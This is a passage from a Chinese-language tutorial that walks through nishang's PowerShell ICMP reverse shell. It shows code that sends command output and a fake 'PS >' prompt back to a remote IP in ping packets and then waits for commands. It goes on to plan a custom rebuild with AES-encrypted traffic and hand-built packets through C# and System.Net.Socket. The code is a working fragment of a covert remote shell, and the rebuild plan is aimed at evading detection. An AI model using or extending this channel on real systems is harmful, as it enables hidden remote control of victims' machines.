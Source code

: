 ```
                if ($remainingindex -ne 0)
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..($sendbytes.Length)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                }
            }
            # 不大于，则只发一个包
            else
            {
                $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes, $PingOptions) | Out-Null
            }
            # 同样模拟ps界面
            $sendbytes = ([text.encoding]::ASCII).GetBytes("`nPS " + (Get-Location).Path + '> ')
            $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
        }
        # 如果没取到命令就休眠指定秒数
        else
        {
            Start-Sleep -Seconds $Delay
        }
    }
}
```

这里还有点PingOptions类的资料：

PingOptions 类提供Ttl和 DontFragment 属性以控制如何传输 Internet 控制消息协议 (ICMP) 回送请求数据包。

Ttl 属性不多说，就是原来那味儿

DontFragment 属性控制是否可将发送到远程主机的数据分成多个数据包。如果要测试用于传输数据包的路由器和网关的最大传输单元 (MTU)，此选项很有用。

由nishang这个脚本就可以看到powershell脚本和.net密不可分的关系。

这里使用的是程序集中的system.net中的ping，当然也可以自己写c#创建一个自己的模块用于控制数据包。

## 造轮子

明白后我们就开始造轮子

但是这里调用的System.Net.NetworkInformation.Ping并不能控制诸如类型seq之类的值。用这个肯定是可以实现的，所以我们换一种方式，我找到了System.Net.Socket能发送构造数据包

所以我们要实现的点基本如下：

- aes加密流量，且能在python和powershell两种不同语言中互相加密解密
- 控制流量包参数，以类似之前python半连接脚本的方式构造流量包

### 构造数据包

上面也说了，我们引入System.Net.Socket来发送数据包。

可以像nishang那样完全用powershell完成，但我想尝试用c#来写一下- -

由于powershell和.net的兼容性好的实在离谱。。我们可以直接写C#代码，用add-type引入
